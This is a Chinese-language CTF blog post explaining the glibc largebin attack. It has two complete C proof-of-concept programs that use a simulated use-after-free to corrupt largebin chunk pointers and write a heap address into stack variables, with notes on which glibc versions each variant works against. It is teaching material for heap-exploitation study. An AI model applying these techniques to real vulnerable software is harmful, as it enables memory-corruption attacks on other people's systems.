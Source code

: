 ```yaml
---
title: largebin attack
date: 2025-01-21T17:33:23+08:00
type: posts
draft: false
summary: 本文总结一下 largebin 相关的攻击利用方式。
categories:
  - CTF-PWN
tags:
  - ctf
  - linux
  - glibc
  - largebin
  - heap
---
```


本文内容在 [unsortedbin attack](../unsortedbin_attack/) 中总结过，单独拉出来整理一下。

当 chunk 从 unsortedbin 放到 largebin 中时，存在两种利用方式使得修改任意指针内容为 chunk 的地址。

利用时需要布局两个 chunk，一个 chunk 已经在 largebin 中，1个 chunk 还在 unsortedbin 中还未插入 largebin，我将这两个 chunk 分别称做 `p2` 和 `p3`。为了保证 `p3` 插入的 largebin 和 `p2` 是同一个，`p2` 和 `p3` 的大小要在一个 largebin 范围内变换。根据两个 chunk 的大小有不同的利用效果：

- `p2` 比 `p3` 小，可修改一个指针内容为 `p3` 地址
- `p2` 比 `p3` 大，可同时修改两个指针内容为 `p3` 的地址
- `p2` 和 `p3` 一样大，无法利用

利用前提还需要有一个 UAF 洞。使用下面示例分别构造这两种利用场景。

**第 1 种利用：`p2` 比 `p3` 小**

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

使用 glibc 版本为 2.27，运行结果如下：

![largebin_uaf_arb_addr_write_exp_1](largebin_uaf_arb_addr_write_exp_1.png)

这个示例中布局了 3 个 chunk：

- `p1` 是给中间用于避免 chunk 合并的 `malloc` 调用时分隔用的
- `p2` 后面被作为 largebin 中最小的 chunk，UAF 的原因使之可控，即 `fwd->fd` 可控
- `p3` 后面被放到 unsortedbin，在下次 `malloc` 调用时将被合并到和 `p2` 相同的 largebin，且满足 unsorted chunk 大小比 largebin 中最小的 chunk 小

当使用 UAF 修改 `p2->bk_nextsize` 为 `&stack_var1 - 0x20` 后，调用 `malloc` 触发 unsortedbin 分类将 unsorted `p3` 地址写入 `fwd->fd->bk_nextsize + 0x20`，`stack_var1` 的值最终被改为 `p3` 的地址。

试了下新版本 (2.39-0ubuntu8.3) 也可以用。

**第 2 种利用：`p2` 比 `p3` 大**

对之前的代码稍做修改后，便成了第 2 种：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

使用 glibc 2.27 版本运行后同时修改 `stack_var1` 和 `stack_var2` 为 `p3` 地址：

![largebin_uaf_arb_addr_write_exp_2](largebin_uaf_arb_addr_write_exp_2.png)

如果改用新版本 (2.39)，这种方式会失败：

![largebin_uaf_arb_addr_write_exp_2_error](largebin_uaf_arb_addr_write_exp_2_error.png)

因为在 2.30 版本 [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de) commit 中添加了个 `bk_nextsize` 和 `bk` 的校验：

![exp2_fix_commit](exp2_fix_commit.png)

所以这种方式在 2.30 之后失效，只能用第 1 种方式。使用不同 glibc 版本的编译程序可以简单参考一下 [glibc_all_in_one](../glibc_all_in_one/) 。
